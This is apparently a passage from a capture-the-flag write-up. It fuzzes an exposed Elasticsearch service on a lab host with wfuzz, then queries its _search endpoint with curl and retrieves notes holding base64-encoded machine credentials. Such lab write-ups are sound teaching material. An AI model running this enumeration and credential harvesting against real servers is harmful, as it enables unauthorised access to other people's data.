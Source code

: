 okaai I found that there is `_` before some parameters , lets fuzz using `_`  

Using command 
```
root@X-Billy:~/Desktop# wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404,400 http://10.10.10.115:9200/_FUZZ

********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://10.10.10.115:9200/_FUZZ
Total requests: 949

===================================================================
ID           Response   Lines    Word     Chars       Payload                                       
===================================================================

000000052:   200        0 L      1 W      103 Ch      "alias"                                       
000000053:   200        0 L      1 W      103 Ch      "aliases"                                     
000000054:   200        0 L      1 W      4470 Ch     "all"                                         
000000129:   405        0 L      12 W     102 Ch      "bulk"                                        
000000145:   200        28 L     28 W     493 Ch      "cat"                                         
000000213:   200        0 L      1 W      76 Ch       "count"                                       
000000576:   405        0 L      11 W     97 Ch       "open"                                        
000000715:   200        0 L      17 W     6456 Ch     "search"                                      
000000743:   200        0 L      1 W      854 Ch      "settings"                                    
000000790:   200        0 L      1 W      20986 Ch    "stats"                                       
000000823:   200        0 L      1 W      40327 Ch    "template"                                    

Total time: 23.53877
Processed Requests: 949
Filtered Requests: 938
Requests/sec.: 40.31644

```

I find parameter call search ... let's search about query `= "clave"`  

```
root@X-Billy:~/Desktop# curl -X GET "http://10.10.10.115:9200/_search?q=clave"
{"took":5,"timed_out":false,"_shards":{"total":16,"successful":16,"skipped":0,"failed":0},"hits":{"total":2,"max_score":5.9335938,"hits":[{"_index":"quotes","_type":"quote","_id":"45","_score":5.9335938,"_source":{"quote":"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "}},{"_index":"quotes","_type":"quote","_id":"111","_score":5.3459888,"_source":{"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="}}]}}
```
